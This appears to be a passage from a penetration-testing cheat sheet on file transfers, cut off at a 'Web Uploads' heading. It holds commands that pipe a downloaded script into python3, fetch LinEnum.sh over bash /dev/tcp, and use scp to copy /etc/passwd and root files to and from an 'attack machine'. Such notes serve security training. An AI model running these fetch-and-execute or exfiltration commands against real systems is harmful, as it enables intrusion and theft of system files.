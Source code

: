 #### Download a Python script file from a web server and pipe it into a Python binary
```Shell
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


### Linux - Download with Bash (`/dev/tcp`)

#### Connect to the target web server
```Shell
exec 3<>/dev/tcp/10.10.10.32/80
```

#### Send an HTTP GET request to the web server
```Shell
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the web server response
```Shell
cat <&3
```


### Linux - SSH Downloads and Uploads

#### Enable SSH service on attack machine
```Shell
systemctl enable ssh
```

#### Start SSH service on attack machine
```Shell
systemctl start ssh
```

#### Download file using SCP
```Shell
scp plaintext@192.168.49.128:/root/myroot.txt .
```

#### Upload file using SCP
```Shell
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

#### Upload a directory using SCP
```Shell
scp -r /path/to/mydirectory username@192.168.0.100:/home/username/
```


### Linux - Web Uploads
